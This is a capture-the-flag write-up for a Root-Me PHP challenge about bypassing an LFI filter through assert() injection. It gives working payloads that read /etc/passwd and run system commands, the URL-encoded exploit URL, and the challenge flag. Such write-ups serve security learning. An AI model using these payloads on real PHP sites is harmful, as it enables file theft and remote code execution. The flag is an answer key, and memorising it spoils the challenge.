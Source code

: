 # PHP - assert()(lfi-die), Bypassing filter

Reference: HackTricks

https://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20Exploiting%20LFI%20using%20co%20hosted%20web%20applications.pdf?\_gl=1_6hbsnw_\_ga_NTM2MDg4NDI5LjE2NjExMzM0Njc._\_ga\_SRYSKX09J7\*MTY2MjEwNDgzMC4zOC4xLjE2NjIxMDU1MzUuMC4wLjA.

https://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20LFI%20with%20phpinfo()%20assistance.pdf?\_gl=1_1qwmuha_\_ga_NTM2MDg4NDI5LjE2NjExMzM0Njc._\_ga\_SRYSKX09J7\*MTY2MjEwNDgzMC4zOC4xLjE2NjIxMDU1MzUuMC4wLjA.

### LFI via PHP's 'assert'

If you encounter a difficult LFI that appears to be filtering traversal strings such as ".." and responding with something along the lines of "Hacking attempt" or "Nice try!", an 'assert' injection payload may work.

A payload like this:

```
' and die(show_source('/etc/passwd')) or ' 
```

will successfully exploit PHP code for a "file" parameter that looks like this:

```
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!"); 
```

It's also possible to get RCE in a vulnerable "assert" statement using the system() function:

```
' and die(system("whoami")) or ' 
```

Be sure to URL-encode payloads before you send them.

***

Initial attempt:

http://challenge01.root-me.org/web-serveur/ch47/?page=../

\->

Warning: assert(): Assertion "strpos('includes/../.php', '..') === false" failed in /challenge/web-serveur/ch47/index.php on line 8 Detected hacking attempt!

\->

Exploit URL:

http://challenge01.root-me.org/web-serveur/ch47/?page=%27%20and%20die(show\_source(%27.passwd%27))%20or%20%27

then

payload: `' and die(show_source('.passwd')) or '`

expected action: `Assertion "strpos('includes/' and die(show_source('.passwd')) or '.php', '..') === false"`

then, as '..' does not exist on the strpos' first argument thus condition satisfied ->

die activate

where php die function is:

```
<?php
    do_something($with_this) or die ('oops!');
?>

(in php, "die" is actually an alias of "exit")
```

here send the 'and' for it to finish the program and not execute

`die("Detected hacking attempt!")`

part.

\->

The flag is / Le flag est :

x4Ss3rT1nglSn0ts4f3A7A1Lx

Remember to sanitize all user input! / Pensez à valider toutes les entrées utilisateurs ! Don't use assert! / N'utilisez pas assert !

***

And show\_source function:

Syntax show\_source(filename,return)

Parameter Values

Parameter Description

filename Required. Specifies the file to display return Optional. If set to TRUE, this function will return the highlighted code as a string, instead of printing it out. Default is FALSE

***

strpos function

Syntax strpos(string,find,start)

Parameter Values

Parameter Description

string Required. Specifies the string to search find Required. Specifies the string to find start Optional. Specifies where to begin the search. If start is a negative number, it counts from the end of the string.
